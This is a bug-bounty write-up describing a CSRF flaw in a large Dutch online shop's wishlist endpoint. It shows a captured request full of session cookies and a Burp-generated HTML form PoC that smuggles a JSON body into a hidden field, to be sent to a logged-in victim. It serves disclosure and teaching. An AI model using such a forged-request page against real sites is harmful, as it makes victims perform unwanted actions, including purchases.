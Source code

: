 ```yaml
---
title: CSRF Injection on the biggest online-shop in Netherland [Bug Hunting]
updated: 2020-03-19 11:28
---
```


My first valid resolved Bug Writeup is here. I was invited to a private program on one of the biggest online-shopping, so I started doing some basic scanning.
I found that website acts weirdly when I perform CSRF. 
**On attacker:**
We create a simple account and capture the request on Burp when we add a product to our wishlist.

```http
POST /service/wishlist/wishlist HTTP/1.1
Host: www.example-website.nl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: none/none
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.example-website.nl/
Content-Type: application/json
Blaze-CSRF: undefined
Origin: https://www.example-website.nl
Content-Length: 40
Connection: close
Cookie: fsrn=2; fsreset2=Wed_18_Mar_2020_22_54_40_GMT; identifier=4339d3b6-2610-422c-82b0-9b04f7a43b58; token=random_json_token_here; user-data=same_data_here=; csrf=bece68d7-333b-4928-9cb0-c19d93d1abb5; _ga=GA1.2.1009191194.1584572081; _ga_ZY7P8KFBPN=GS1.1.1587228541.7.0.1587228541.0; _dvp=0:k7xxaz5p:N0836XsY7brMdb65ime4s1tlX2bOgxwe; cookies=accept; _gcl_au=1.1.1550199358.1584572206; cto_bundle=2v43UF9VUThPM05JekQzeVk3cGRObnVwWWEwZEpOWnl2dlpwbUJvVU8wNnhxekExVVNLdUphdXdTdHpTV21ocUdoZGRJJTJGOXRtUkFXUTkzS2g5UHB5eVcwSEJvS0UlMkY3TSUyRiUyRlVrRUQwSUpMWU9IVllJN2xaUWNkSVYyOEElMkJhd1BBV1hwZFBHbiUyRm1HMEVTYTVFU0NOTkhOWVlBaTZHYWhtcUpsZlVoOThvS1dEV1dWRTVlTXhNdXpVcDlBZVVJMDhheGozMmk; _fbp=fb.1.1584572548344.1088712622; BVBRANDID=fb63c020-cb02-4001-9aaf-3a86f79ba5c7; fita.sid=GcfRuiCcumSNg8cS6CDcQwVsYKInN15v; _hjid=c1509864-a77b-4b7f-bfc9-076a83f11f4d; optimizelyEndUserId=oeu1584722868093r0.06827504906625659; tl_sid=2a77e76a226b4db2b573196a38c3545c; nefspe=2; __cfduid=d298a07db320e91fcbf533e7f069d14de1587228538; browser-session-id=f3cc2b56-82bb-4060-a2cd-eade6f149808; lux_uid=158722853903320907; _dvs=0:k95uw4sf:Us6HCuZajpYgx7oitmBVL4ra2PPeP8Ig; _uetsid=_uet068cc821-8ad2-7f2f-c994-4ab86b261199; _gid=GA1.2.183840546.1587228542; _dc_gtm_UA-46485659-10=1; _gat_UA-46485659-10=1

{"items":[{"productNumber":"16457804"}]}
```

Using this request, we generate a CSRF PoC. (again using Burp Suite)

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://www.example-website.nl/service/wishlist/wishlist" method="POST" enctype="text/plain">
      <input type="hidden" name="&#123;&quot;items&quot;&#58;&#91;&#123;&quot;productNumber&quot;&#58;&quot;16457804&quot;&#125;&#93;&#125;" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
Send the generated HTML to the victim.

**On victim**
Open the file received from attacker (while he is already logged in the website). The product will be added on the wishlist.

## Impact

The attacker can perform different unwanted action on user, such as buying products, add/remove products from wishlist and so on.



